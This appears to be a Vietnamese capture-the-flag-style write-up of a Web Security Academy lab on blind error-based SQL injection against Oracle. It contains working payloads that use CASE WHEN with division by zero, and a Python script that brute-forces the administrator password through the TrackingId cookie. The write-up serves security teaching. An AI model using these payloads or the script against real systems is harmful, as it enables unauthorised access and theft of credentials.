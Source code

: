 ![image](https://github.com/user-attachments/assets/cc16552d-8149-42d8-b223-26335cc24fe9)

Sau khi test với nháy đơn thì xác định được ứng dụng bị sqli.

![image](https://github.com/user-attachments/assets/276c23ac-c98d-41f9-9684-2fb3b904894c)

Thử câu truy vấn hợp lệ nhưng không có tác dụng thực tế và nó vẫn báo lỗi, tức là khả năng bị sai, có thể là thiếu table.

Thử xem, ví dụ như dbms mssql, sql server xem, select schema table chẳng hạn. Nhưng cho nhanh thì tôi sẽ thử các cái nổi nổi như mysql, oracle nhất.

![image](https://github.com/user-attachments/assets/a14a1663-c0b3-477c-a2cc-4a84e570ed0d)

Đúng thật sau khi thử thì ta biết chắc chắn sqli này là oracle.

Nhưng tại sao phải dùng `||` nhỉ ?? Liệu có thể dùng cái khác không ???. Thì câu trả lời sẽ là có thể. dùng || để như trong trường hợp waf nó chặn union chẳng hạn. Và `||` trong trường hợp này là nó dùng để nối chuỗi mà thì cũng tương đương với mực đích dùng union thôi.

Tiến hành dùng union xem sao nhé.

![image](https://github.com/user-attachments/assets/581ccd39-a4a3-4388-844c-f21c5da5d196)

Đó đã thành công rồi kìa.

2 Payload tương đương

```
'||(SELECT+''+from+dual)||'
'union+select+''+from+dual--
```

![image](https://github.com/user-attachments/assets/6d89c50a-1e7e-409f-964f-0b130eef7373)

Chứng tỏ sqli đã được thực thi.

Tiếp theo chúng ta sẽ đoán tên column và khai thác sqli này là Error-Based SQL Injection

Và tôi sẽ dùng cách này để tấn công, theo đúng format của oracle nhé

```
CASE WHEN ... THEN ... ELSE ... END.
```

![image](https://github.com/user-attachments/assets/1be24ad2-7462-4866-b6bb-29161b76239e)

Đi từ đầu câu truy vấn nhé, bạn có thể thấy rằng case nó như switch case trong c++ hay các ngôn ngữ lập trình khác á.

Thì nó gặp 1=1 tức là đúng thì nó sẽ đến then và nó gặp 1/0, thì lại sai vì không thể chia cho 0. Khi đó nó sẽ bắn ra lỗi.

![image](https://github.com/user-attachments/assets/6752d0a1-f8e8-4b54-8428-6c5aa34e9d13)

Còn khi mà 1=2 thì nó sẽ nhảy đến else luôn.

Đó thì ta lợi dụng cách này để đoán ra tên column. 

**Và lưu ý nhé, nếu không có dữ liệu để chạy CASE, thì CASE không chạy luôn.**

Thì đó mới là nguyên nhân ta biết đoán được dựa trên error nhé, chứ không phải là case -> then luôn đâu, nó sẽ check xem column đó có tồn tại hay k đấy.

![image](https://github.com/user-attachments/assets/5e88fa01-a3c9-442e-b931-53c5e6949a41)

![image](https://github.com/user-attachments/assets/58cca1fa-1930-4f5b-ab3b-391f2551e558)

Vậy là ta đã check được passwd có 20 ký tự nhé.

![image](https://github.com/user-attachments/assets/36682a9b-ba5c-4697-b7de-36885c3068ae)

Payload:

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Cách thứ 2 là tôi sẽ viết script

```
import requests
import string

# Cấu hình request
URL = "https://0a1e004903ddf4658108ed5b007e00bb.web-security-academy.net/filter?category=Gifts"
COOKIES = {
    "session": "FX2cnYUNTlQ3tFoLzudHsZC57WVSbHMc"
}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Referer": "https://0a1e004903ddf4658108ed5b007e00bb.web-security-academy.net/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": '"Chromium";v="125", "Not.A/Brand";v="24"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits


def is_correct_guess(response):
    """ Kiểm tra nếu server trả về lỗi 500 (chia cho 0). """
    return response.status_code == 500


def brute_force_password():
    password = ""

    for i in range(1, 50):  # Giả sử password có tối đa 50 ký tự
        found = False
        for char in CHARSET:
            # Inject SQL để kiểm tra ký tự thứ i của password
            payload = f"jjb6UlCHrlZ1SHBB'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{char}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            cookies = COOKIES.copy()
            cookies["TrackingId"] = payload

            print(f"[*] Đang thử ký tự thứ {i}: {char}")  # Debug

            response = requests.get(URL, cookies=cookies, headers=HEADERS)

            if is_correct_guess(response):
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                found = True
                break
        
        if not found:
            print(f"[*] Password hoàn chỉnh: {password}")
            break

    return password


# Chạy script
final_password = brute_force_password()
print(f"Password cuối cùng: {final_password}")

```

![image](https://github.com/user-attachments/assets/beaa9312-b17a-43fb-b537-bb705702b78e)

Vậy là đã thành công.

![image](https://github.com/user-attachments/assets/b1c2cb10-453b-4386-9a3a-a830b8376038)
